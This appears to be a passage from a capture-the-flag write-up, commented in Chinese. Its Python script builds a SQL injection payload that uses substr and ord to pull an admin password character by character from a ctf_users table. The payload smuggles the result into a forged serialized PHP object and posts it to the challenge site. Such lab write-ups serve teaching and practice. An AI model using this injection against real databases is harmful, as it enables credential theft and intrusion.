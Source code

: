 ```python

sess = requests.Session()

username = 'long'
password = '123'

login(username, password)

# 1. 使用 `, 截断 signature
# 2. 在 ctf_users 表中查出 is_admin=1 的 password
# 3. 使用 substr() 每次取一个字符, 使用 ord() 返回字符的ASCII码
# 4. 使用 concat() 拼接为序列化后的 Mood
# 5. 使用 -- 截断后面的SQL语句
i = 1
mood = '(select concat(`O:4:\"Mood\":3:{{s:4:\"mood\";i:`,ord(substr(password,{},1)),`;s:2:\"ip\";s:14:\"80.212.199.161\";s:4:\"date\";i:1520664478;}}`) from ctf_users where is_admin=1 limit 1)'.format(i)
payload = 'a`, {}); -- -'.format(mood)
# a`, (select concat(`O:4:"Mood":3:{s:4:"mood";i:`,ord(substr(password,1,1)),`;s:2:"ip";s:14:"80.212.199.161";s:4:"date";i:1520664478;}`) from ctf_users where is_admin=1 limit 1)); -- -
print(payload)
resp = publish(payload, '0')
```

![](assets/markdown-img-paste-20190824161155736.png)

### POC
